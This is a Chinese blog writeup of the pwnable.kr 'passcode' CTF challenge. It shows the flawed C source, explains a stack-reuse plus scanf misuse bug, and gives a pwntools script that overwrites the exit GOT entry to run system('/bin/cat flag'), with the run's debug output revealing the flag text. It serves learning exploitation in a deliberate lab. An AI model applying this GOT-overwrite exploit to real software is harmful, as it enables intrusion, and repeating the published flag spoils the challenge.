



<!--yml
category: 未分类
date: 2022-04-26 14:40:47
-->

# PWN passcode [pwnable.kr]CTF writeup题解系列5_3riC5r的博客-CSDN博客

> 来源：[http://blog.csdn.net/fastergohome/article/details/103795862](http://blog.csdn.net/fastergohome/article/details/103795862)

直接看题目：


 

连接服务器看看情况：

```
root@mypwn:/ctf/work/pwnable.kr# ssh passcode@pwnable.kr -p2222
passcode@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 07:20:29 2020 from 123.136.248.144
passcode@prowl:~$ ls -la
total 36
drwxr-x---   5 root passcode     4096 Oct 23  2016 .
drwxr-xr-x 116 root root         4096 Nov 12 21:34 ..
d---------   2 root root         4096 Jun 26  2014 .bash_history
-r--r-----   1 root passcode_pwn   48 Jun 26  2014 flag
dr-xr-xr-x   2 root root         4096 Aug 20  2014 .irssi
-r-xr-sr-x   1 root passcode_pwn 7485 Jun 26  2014 passcode
-rw-r--r--   1 root root          858 Jun 26  2014 passcode.c
drwxr-xr-x   2 root root         4096 Oct 23  2016 .pwntools-cache
```

看到有代码和程序，直接下载下来。

先看看代码：

```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
} 
```

注意到login函数有两个错误：

```
scanf("%d", passcode1);

scanf("%d", passcode2);
```

正确的写法应该是：

```
scanf("%d", &passcode1);

scanf("%d", &passcode2);
```

那我们就需要看看怎么利用这个错误，如果能控制passcode1的值，我们就可以将这个值改写成地址，然后再利用这句话，往这个地址写入我们需要的数据，比如改写got表，或者其他。

那我们就继续看看其他函数，继续看main函数，注意到：

```
 welcome();
	login();
```

这两个函数作为同一级别的调用，那么在welcome函数退出的时候，堆栈会被login函数继续使用，那我们就在welcome函数中输入一下足够长度的数据看看是否可以覆盖passcode1对应的堆栈位置。

构建payload

```
payload=cyclic(100)
```

数据是：

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

打开gdb看下堆栈情况



根据这个情况，我们发现确实存在堆栈再利用。那么我们可以构建脚本将这个地址改成system函数的入口地址，直接执行

```
system("/bin/cat flag")
```

编写python脚本：

```
#coding:utf8
#!/usr/bin/env python

from pwn import *

# context.log_level = 'debug'
process_name = './passcode'
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
elf = ELF(process_name)

exit_got = elf.got['exit']
# pause()
payload=cyclic(100-4)
p.sendline(payload+p32(exit_got))

p.recv()

system_bincatflag_addr = 0x080485E3
p.sendline(str(system_bincatflag_addr))

p.interactive()
```

服务器上执行情况如下： 

```
passcode@prowl:~$ python
Python 2.7.12 (default, Nov 12 2018, 14:36:49) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>>  
... context.log_level = 'debug'
>>> process_name = './passcode'
>>> p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
[x] Starting local process './passcode' env={'LD_LIBRARY_PATH': './'} 
[+] Starting local process './passcode' env={'LD_LIBRARY_PATH': './'} : pid 62485
>>> elf = ELF(process_name)
[DEBUG] PLT 0x8048420 printf
[DEBUG] PLT 0x8048430 fflush
[DEBUG] PLT 0x8048440 __stack_chk_fail
[DEBUG] PLT 0x8048450 puts
[DEBUG] PLT 0x8048460 system
[DEBUG] PLT 0x8048470 __gmon_start__
[DEBUG] PLT 0x8048480 exit
[DEBUG] PLT 0x8048490 __libc_start_main
[DEBUG] PLT 0x80484a0 __isoc99_scanf
[*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
>>> 
>>> main_addr = elf.symbols['main']
>>> exit_got = elf.got['exit']
>>> # pause()
... payload=cyclic(100-4)
>>> # p.sendline(payload+p32(338150)+p32(13371337))
... p.sendline(payload+p32(exit_got))
[DEBUG] Sent 0x65 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
    00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
    00000060  18 a0 04 08  0a                                     │····│·│
    00000065
>>> # p.sendlineafter('name : ', 'A'*(100))
... 
>>> p.recv()
[DEBUG] Received 0x28 bytes:
    "Toddler's Secure Login System 1.0 beta.\n"
"Toddler's Secure Login System 1.0 beta.\n"
>>> # p.sendline(str(main_addr))
... system_bincatflag_addr = 0x080485E3
>>> p.sendline(str(system_bincatflag_addr))
[DEBUG] Sent 0xa bytes:
    '134514147\n'
>>> 
>>> p.interactive()
[*] Switching to interactive mode
[DEBUG] Received 0x7f bytes:
    00000000  65 6e 74 65  72 20 79 6f  75 20 6e 61  6d 65 20 3a  │ente│r yo│u na│me :│
    00000010  20 57 65 6c  63 6f 6d 65  20 61 61 61  61 62 61 61  │ Wel│come│ aaa│abaa│
    00000020  61 63 61 61  61 64 61 61  61 65 61 61  61 66 61 61  │acaa│adaa│aeaa│afaa│
    00000030  61 67 61 61  61 68 61 61  61 69 61 61  61 6a 61 61  │agaa│ahaa│aiaa│ajaa│
    00000040  61 6b 61 61  61 6c 61 61  61 6d 61 61  61 6e 61 61  │akaa│alaa│amaa│anaa│
    00000050  61 6f 61 61  61 70 61 61  61 71 61 61  61 72 61 61  │aoaa│apaa│aqaa│araa│
    00000060  61 73 61 61  61 74 61 61  61 75 61 61  61 76 61 61  │asaa│ataa│auaa│avaa│
    00000070  61 77 61 61  61 78 61 61  61 18 a0 04  08 21 0a     │awaa│axaa│a···│·!·│
    0000007f
enter you name : Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa!

[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1

[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
ls
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    's' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x3e bytes:
    'enter passcode1 : enter passcode2 : checking...\n'
    'Login Failed!\n'
enter passcode1 : enter passcode2 : checking...
Login Failed!
[DEBUG] Received 0x30 bytes:
    'Sorry mom.. I got confused about scanf usage :(\n'
Sorry mom.. I got confused about scanf usage :(
[DEBUG] Received 0x37 bytes:
    'Now I can safely trust you that you have credential :)\n'
Now I can safely trust you that you have credential :)
[*] Process './passcode' stopped with exit code 0 (pid 62485)
[*] Got EOF while reading in interactive
```

上传flag

